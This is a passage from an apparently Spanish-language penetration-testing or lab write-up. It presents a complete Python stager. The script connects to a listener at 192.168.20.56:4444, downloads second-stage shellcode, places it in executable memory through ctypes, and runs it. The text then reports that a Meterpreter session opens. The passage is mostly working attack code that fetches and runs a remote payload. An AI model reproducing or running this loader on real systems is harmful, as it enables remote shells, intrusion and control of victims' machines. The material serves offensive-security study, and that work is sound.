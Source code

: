 hacemos la modificacion al python para finalmente dejarlo asi:

```python
#!/usr/bin/env python

import ctypes
import ctypes.util
import socket
import struct
import sys

def run_code_linux(shellcode):
    """Run the specified shellcode on Linux"""
    # Find functions in libc
    libc = ctypes.CDLL(ctypes.util.find_library('c'))
    libc.mmap.restype = ctypes.c_void_p
    libc.mprotect.argtypes = [ctypes.c_void_p, ctypes.c_int, ctypes.c_int]

    # Allocate memory with a RW private anonymous mmap
    # PROT_READ=1, PROT_WRITE=2, PROT_EXEC=4
    mem = libc.mmap(0, len(shellcode), 3, 0x22, -1, 0)
    if int(mem) & 0xffffffff == 0xffffffff:
        libc.perror(b"mmap")
        return 1

    # Copy the shellcode
    ctypes.memmove(mem, shellcode, len(shellcode))

    # Change protection to RX
    if libc.mprotect(mem, len(shellcode), 5) == -1:
        libc.perror(b"mprotect")
        return 1

    # Run!
    return ctypes.CFUNCTYPE(ctypes.c_int)(mem)()


if __name__ == '__main__':
    if sys.version_info < (2, 7):
        sys.stderr.write("This program cannot be run in Python<2.7 mode.\n")
        sys.exit(0)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.20.56", 4444))
    shellcode_2nd_stage = s.recv(126)
    run_code_linux("\xbf" + struct.pack("<L", s.fileno()) + shellcode_2nd_stage)
```

donde lo corremos vemos que queda bloqueado el python y la meterpreter se activa:

![](docs/img/51.png)
